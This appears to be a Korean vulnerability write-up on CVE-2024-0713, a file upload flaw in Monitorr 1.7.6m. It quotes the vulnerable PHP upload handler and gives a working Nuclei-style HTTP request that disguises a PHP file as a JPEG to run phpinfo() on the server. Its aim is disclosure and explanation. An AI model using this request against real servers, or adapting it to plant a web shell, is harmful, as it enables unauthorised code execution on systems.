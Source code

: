 ```yaml
---
title: "[하루한줄] CVE-2024-0713 : Monitorr의 파일 업로드 취약점"
author: ogu123
tags: [Monitorr, file upload, ogu123]
categories: [1day1line]
date: 2024-04-03 17:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

https://xz.aliyun.com/t/13401?time__1311=mqmxnDBQ3QuDlxGgx%2BxCqptjQeP7qqPwD&alichlgref=https%3A%2F%2Fxz.aliyun.com%2Fsearch%3Fkeyword%3Dcve-2024

## Target

- Monitorr 1.7.6m

## Explain

웹사이트와 애플리케이션 상태를 원격으로 모니터링하는 웹 애플리케이션 Monitorr에서 파일 업로드 취약점이 발견되었습니다.

```
/* assets/php/upload.php */
<?php
    $target_dir = "../data/usrimg/";
    $target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);
    $uploadOk = 1;
    $imageFileType = strtolower(pathinfo($target_file,PATHINFO_EXTENSION));
    $check = getimagesize($_FILES["fileToUpload"]["tmp_name"]);
    $rawfile = $_FILES["fileToUpload"]["name"];

    echo "<div id='uploadreturn'>";

        if($check !== false) {
                echo "File " . $rawfile . " is an image: " . $check["mime"] ;
                    echo "<br>";
                $uploadOk = 1;
            } 
        // --snip--     
        else {
            if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], strtolower($target_file))) {
                echo "<div id='uploadok'>";
                    echo "File ". basename( $_FILES["fileToUpload"]["name"]). " has been uploaded to: " . strtolower($target_file) ;
                echo "</div>";
            }  
			 // --snip--
?>
```
사용자가 파일을 업로드할 경우 `assets/php/upload.php` 파일 내의 `getimagesize()` 함수에서 업로드한 파일 형식을 확인합니다.

이때, `getimagesize()` 함수는 파일 확장자나 내용을 검증하지 않고, 파일 MIME 헤더 타입을 통해 파일의 형식을 확인합니다.

따라서, 공격자는 파일 MIME 헤더 타입을 이미지 파일(JPEG)로 속이고 파일에 웹 쉘과 같은 악성코드를 넣어 서버에 업로드 할 수 있습니다.

```
http:
- raw:
  - |
    POST /assets/php/upload.php HTTP/1.1
    Host: {{Hostname}}
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryMmx988TUuintqO4Q
    Content-Length: 1194

    ------WebKitFormBoundaryMmx988TUuintqO4Q
    Content-Disposition: form-data; name="fileToUpload"; filename="info.php"
    Content-Type: image/jpeg

    {{base64_decode("/9j/4AAQSkZJRgABAQAAAQABAAD/2wBDAAgGBgcGBQgHBwcJCQgKDBQNDAsLDBkSE
    w8UHRofHh0aHBwgJC4nICIsIxwcKDcpLDAxNDQ0Hyc5PTgyPC4zNDL/2wBDAQkJCQwLDBgNDRgyIRwhMjI
    yMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjL/wAARCAABAAEDASIAA
    hEBAxEB/8QAHwAAAQUBAQEBAQEAAAAAAAAAAAECAwQFBgcICQoL/8QAtRAAAgEDAwIEAwUFBAQAAAF9AQI
    DAAQRBRIhMUEGE1FhByJxFDKBkaEII0KxwRVS0fAkM2JyggkKFhcYGRolJicoKSo0NTY3ODk6Q0RFRkdIS
    UpTVFVWV1hZWmNkZWZnaGlqc3R1dnd4eXqDhIWGh4iJipKTlJWWl5iZmqKjpKWmp6ipqrKztLW2t7i5usL
    DxMXGx8jJytLT1NXW19jZ2uHi4+Tl5ufo6erx8vP09fb3+Pn6/8QAHwEAAwEBAQEBAQEBAQAAAAAAAAECA
    wQFBgcICQoL/8QAtREAAgECBAQDBAcFBAQAAQJ3AAECAxEEBSExBhJBUQdhcRMiMoEIFEKRobHBCSMzUvA
    VYnLRChYkNOEl8RcYGRomJygpKjU2Nzg5OkNERUZHSElKU1RVVldYWVpjZGVmZ2hpanN0dXZ3eHl6goOEh
    YaHiImKkpOUlZaXmJmaoqOkpaanqKmqsrO0tba3uLm6wsPExcbHyMnK0tPU1dbX2Nna4uPk5ebn6Onq8vP
    09fb3+Pn6/9oADAMBAAIRAxEAPwD5/ooooA//2Tw/PXBocGluZm8oKTs/Pg==")}}
				                      ↑↑<?=phpinfo();?>↑↑
    ------WebKitFormBoundaryMmx988TUuintqO4Q--
  unsafe: false
  cookie-reuse: false
  matchers-condition: or
  matchers:
  - type: word
    part: body
    words:
    - usrimg/info.php
    condition: or
```
공격자는 위 HTTP 요청을 통해 서버에 악의적인 파일을 업로드할 수 있습니다.

multipart/form-data을 사용해 `info.php` 파일을 image/jpeg 형식으로 서버에 업로드합니다. 
이때, `info.php` 파일의 MIME 헤더 타입은 JPEG 되어 있지만 파일 안에는 PHP 코드(`<?=phpinfo();?>`)가 포함되어 있습니다.


![](cve-2024-0713/image1.png)
Request를 통해 파일 안에 PHP 코드(`<?=phpinfo();?>`)가 포함되어 있는 걸 확인할 수 있습니다.

Response로부터 서버에 업로드된 경로를 확인할 수 있습니다.

![](cve-2024-0713/image2.png)
서버에 업로드된 `info.php` 파일에 접근할 경우, `phpinfo()` 함수가 실행되어 서버 php 설정 및 버전 정보를 확인할 수 있습니다.

따라서, 공격자는 취약점을 통해 웹 쉘을 타겟 시스템에 업로드하고 시스템 권한을 획득할 수 있습니다.

## Reference

- [Monitorr](https://github.com/Monitorr/Monitorr)